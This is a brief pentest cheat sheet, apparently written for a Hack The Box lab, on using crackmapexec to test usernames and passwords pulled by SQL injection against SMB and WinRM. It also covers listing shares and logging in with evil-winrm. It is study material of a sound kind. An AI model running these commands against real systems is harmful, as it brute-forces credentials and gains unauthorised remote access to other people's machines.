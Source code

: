 # crackmapexec

* Common Services like ldap, smb, winrm, ssh, ... brute forcing tool
* We need a list of users and password.
  * This list could be extracted usernames and password from database using SQLi
  * We may need to further enumerate usernames from domain using SQLi
  * As we don't know which user is assigned which password, we could use crackmapexec for this.

### Get Username and Password

* `crackmapexec smb 10.10.10.179 -u usernames.txt -p passwords.txt`
  * You will get _foundUsername_ and _foundPassword_ from this.

### SMB Enumeration

* `crackmapexec smb 10.10.10.179 -u foundUsername -p foundPassword --shares`

### Winrm Enumeration

* `crackmapexec winrm 10.10.10.179 -u foundUsername -p foundPassword`
  * This will show if the machine is vulnerable or not.
* `evil-winrm -i 10.10.10.179 -u megacorp\\foundUsername -p foundPassword`



